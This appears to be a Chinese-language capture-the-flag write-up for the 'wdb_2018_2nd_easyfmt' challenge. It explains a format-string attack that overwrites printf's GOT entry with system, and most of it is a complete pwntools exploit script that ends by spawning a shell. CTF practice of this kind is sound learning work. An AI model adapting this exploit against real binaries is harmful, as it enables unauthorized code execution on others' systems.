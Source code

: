 ![](./wdb_2018_2nd_easyfmt_2.png)
*   发现got表可写
![](./wdb_2018_2nd_easyfmt_3.png)
*   我们的思路如下
    -   通过格式化字符串漏洞，将got表中的printf地址修改为system的地址
    -   写入/bin/sh那么调用printf就成了system("/bin/sh")
>   payload如下
```python
from pwn import *
from LibcSearcher import *
p   = process('./wdb_2018_2nd_easyfmt')
elf = ELF('./wdb_2018_2nd_easyfmt')

# 将printf的got值改成system
printf_got = elf.got['printf']

p.recvuntil(b'Do you know repeater?\n')

# 获取system的地址
p.send(b'%22$p')
libc_system = int(p.recv()[:10], 16) + 0x2fcb2
system_l = libc_system & 0xff           # system第一个字节的值
system_h = (libc_system>>8) & 0xffff    # system第二三个字节的值

# 在buf储存printf的got表地址
# 通过调用printf(buf)修改buf指向的地址的值, 即printf_got
# 先写入printf_got的第一个字节, 然后写入剩下的三个字节
payload = p32(printf_got) + p32(printf_got + 1)
payload += b'%' + bytes(str(system_l - 8).encode()) + b'c%6$hhn'
payload += b'%' + bytes(str(system_h - system_l).encode()) + b'c%7$hn'

p.send(payload)
p.recv()
p.send(b'/bin/sh\x00') # printf(buf)变成了system(buf), 只需要在buf写入/bin/sh
p.interactive()
```
